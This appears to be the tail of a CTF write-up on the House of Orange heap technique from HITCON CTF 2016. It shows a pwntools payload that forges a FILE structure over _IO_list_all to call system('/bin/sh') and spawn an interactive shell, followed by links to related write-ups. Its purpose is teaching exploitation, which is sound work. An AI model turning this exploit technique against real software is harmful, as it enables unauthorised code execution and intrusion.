 ```python
payload = "/bin/sh\x00" + p64(0x61)
payload += p64(0) + p64(IO_list_all-0x10)
payload += p64(0)*11 + p64(system) 
payload += p64(0)*4
payload += p64(heap_base+0x960) + p64(2)
payload += p64(3) + p64(0)
payload += p64(1) + p64(0)
payload += p64(0) + p64(heap_base+0x930)

upgrade(0x420+len(payload), "\x00"*0x420+payload, 1, 1)

build(3,"3",3,3)

w.interactive()

```



reference

	https://dhavalkapil.com/blogs/FILE-Structure-Exploitation/
	https://www.lazenca.net/display/TEC/House+of+Orange
	http://tech.c2w2m2.com/pwn/house-of-orange/
	http://newbiepwn.tistory.com/148
	http://say2.tistory.com/entry/HITCON-CTF-Qual-2016house-of-orange
	http://4ngelboy.blogspot.com/2016/10/hitcon-ctf-qual-2016-house-of-orange.html
	https://1ce0ear.github.io/2017/11/26/study-house-of-orange/ 

                 
